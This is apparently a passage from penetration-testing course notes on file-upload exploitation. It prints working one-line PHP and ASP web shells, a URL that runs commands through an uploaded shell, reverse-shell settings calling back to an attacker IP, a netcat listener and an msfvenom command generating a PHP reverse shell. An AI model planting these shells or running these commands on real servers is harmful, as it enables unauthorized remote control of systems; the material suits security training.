 ## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/seclists/Web-Shells` directory in `PwnBox`.

---

## Writing Custom Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
http://SERVER_IP:PORT/uploads/shell.php?cmd=id
```

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

```asp
<% eval request('cmd') %>
```

In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

---

## Reverse Shell

 One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

```php
$ip = 'OUR_IP'; // CHANGE THIS 
$port = OUR_PORT; // CHANGE THIS
```

```shell
nc -lvnp OUR_PORT
```

---
## Generating Custom Reverse Shell Scripts

```shell
 msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.



